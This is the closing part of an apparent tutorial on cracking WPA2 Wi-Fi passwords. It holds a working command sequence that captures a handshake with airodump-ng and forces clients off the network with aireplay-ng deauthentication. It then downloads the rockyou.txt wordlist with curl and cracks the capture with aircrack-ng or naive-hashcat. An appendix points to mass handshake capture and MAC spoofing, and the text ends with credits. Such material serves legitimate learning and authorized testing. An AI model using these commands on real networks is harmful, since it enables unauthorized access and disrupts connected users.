 # listen for all nearby beacon frames to get target BSSID and channel
airodump-ng mon0

# start listening for the handshake
airodump-ng -c 6 --bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0

# optionally deauth a connected client to force a handshake
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

########## crack password with aircrack-ng... ##########

# download 134MB rockyou.txt dictionary file if needed
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# crack w/ aircrack-ng
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap

########## or crack password with naive-hashcat ##########

# convert cap to hccapx
cap2hccapx.bin capture/-01.cap capture/-01.hccapx

# crack with naive-hashcat
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
Appendix
The response to this tutorial was so great that I've added suggestions and additional material from community members as an appendix. Check it out to learn how to:

Capture handshakes and crack WPA passwords on MacOS/OSX
Capture handshakes from every network around you with wlandump-ng
Use crunch to generate 100+GB wordlists on-the-fly
Spoof your MAC address with macchanger
A Chinese version of the appendix is also available.

Attribution
Much of the information presented here was gleaned from Lewis Encarnacion's awesome tutorial. Thanks also to the awesome authors and maintainers who work on Aircrack-ng and Hashcat.

Overwhelming thanks to neal1991 and tiiime for translating this tutorial into Chinese. Further shout outs to yizhiheng, hiteshnayak305, enilfodne, DrinkMoreCodeMore, hivie7510, cprogrammer1994, 0XE4, hartzell, zeeshanu, flennic, bhusang, tversteeg, gpetrousov, crowchirp and Shark0der who also provided suggestions and typo fixes on Reddit and GitHub. If you are interested in hearing some proposed alternatives to WPA2, check out some of the great discussion on this Hacker News post.
